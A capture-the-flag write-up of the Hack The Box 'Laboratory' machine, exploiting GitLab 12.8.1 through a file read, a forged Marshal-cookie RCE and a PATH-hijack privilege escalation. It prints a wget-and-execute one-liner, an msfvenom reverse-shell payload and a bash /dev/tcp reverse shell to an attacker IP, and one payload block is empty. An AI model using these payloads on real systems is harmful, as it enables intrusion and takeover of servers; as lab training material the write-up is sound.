# Box 




https://www.hackthebox.eu/home/machines/profile/298

# Profile

  

https://www.hackthebox.eu/home/users/profile/296177

# Table of contents

* [Reconnaissance](#Reconnaissance)
* [Exploitation](#exploitation)
* [Post-Exploitation](#post-exploitation)
  + [User](#user)
  + [Root](#root)

# Contents 

## Reconnaissance 

Let's start with nmap :

```bash
nmap -A -oA nmap 10.10.10.216
```




Let's add the subdomain to our /etc/hosts file 



In the basic webpage on the port 80 I find nothing interesting.

We go to  the https://git.laboratory.htb webpage.





​	After registering we can find a user Dexter (https://git.laboratory.htb/dexter) which is the owner of the website :




I found the version of the page which is  12.8.1, we find an exploit which is an exploit do a LFI and a RCE : https://hackerone.com/reports/827052

We are going to use this code : 

```ruby
request = ActionDispatch::Request.new(Rails.application.env_config)
request.env["action_dispatch.cookies_serializer"] = :marshal
cookies = request.cookie_jar

erb = ERB.new("<%= `echo vakzz was here > /tmp/vakzz` %>")
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
cookies.signed[:cookie] = depr
puts cookies[:cookie]
```

We need to get the secrets.yml file to steal the identity of the gitlab website. 

First, we need to create 2 different project.

Create an issue with this code : 

```bash

```

Move the issue to the second project.

You got the secrets.yml file.

## Exploitation

Now you need to install gitlab on your local machine and replace your secrets.yml file by the one that we got from the laboratory website.

Now let's use the code that I got earlier to have our cookie, start the console and paste the code there :

```bash
gitlab-rails console 
```

You need to modify this line : 

````ruby
erb = ERB.new("<%= `wget http://ip:port/file` %>")
````





To send you can use curl : 

```bash
curl -vvv 'https://git.laboratory.htb/users/sign_in' -b "experimentation_subject_id=<your_cookie>" -k  
```

We can see here that we have suceeded to upload a file.

Let's get a reverse_shell.

I use this payload and generate a linux executable to get my reverse_shell :

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.14.137 LPORT=1234 -f elf >reverse.elf
```

Upload your file like before. Now we just have to setup our nc to get our shell.

```bash
nc -lvp 1234
```

If you want to do everything in one line you can do this : 

```ruby
erb = ERB.new("<%= `cd /tmp && wget http://10.10.14.137:4444/reverse.elf && chmod +x reverse.elf && ./reverse.elf` %>")
```

Now that we got our cookies we just have to send it :

```bash
curl -vvv 'https://git.laboratory.htb/users/sign_in' -b "experimentation_subject_id=<your_cookie>" -k  
```

We got ou reverse_shell ! 



## Post-Exploitation

### User

I do `bash -i` to get a better shell.

```bash
bash -i 
```




We need to escape the docker.

After trying to enumerate the machine, I've used the gitlab console to manage the dexter user.

You need to use : 

```bash
gitlab-rails console 
```

We are connected directly to the website so we can changer the password of dexter.



We can see a "true" statement. We know have full access to the dexter account : 




We find a new private repo which contains a ssh key which belongs to dexter, we can now login as dexter.

```bash
ssh -i id_rsa dexter@10.10.10.216 
```

We can know get the user.txt flag

### Root




After enumerating the machine I find a suspecious binary file : 




Executing this file does nothing so I get the file on my local machine to read what's inside it thanks to the strings command.

```bash
strings docker-security
```



Here we can see the vulnerability. chmod is not an absolute path so we can change our path to get a reverse_shell.


Let's write our script called "chmod": 

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.137/1235 0>&1
```

Add the path where you script is : 

```bash
PATH=/home/dexter:$PATH
```

Execute docker-security.



Rooted.